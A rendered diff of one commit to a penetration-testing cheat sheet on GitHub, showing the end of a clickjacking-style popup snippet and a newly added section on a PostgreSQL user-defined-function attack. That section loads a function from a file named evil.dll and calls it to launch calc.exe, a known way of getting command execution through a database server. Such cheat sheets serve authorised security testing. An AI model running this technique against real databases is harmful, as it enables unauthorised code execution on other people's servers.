

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -2076,3 +2076,8 @@ window.onclick = () => {
     window.open('https://vulnerable-website.com/login/sso');
 }
 ```
+### User-Defined Function (UDF) in Postgres
+```sql
+create or replace function cmd(text, integer) returns void as $$C:\evil.dll$$, $$evil$$ language C strict;
+SELECT cmd($$calc.exe$$, 3);
+```
````
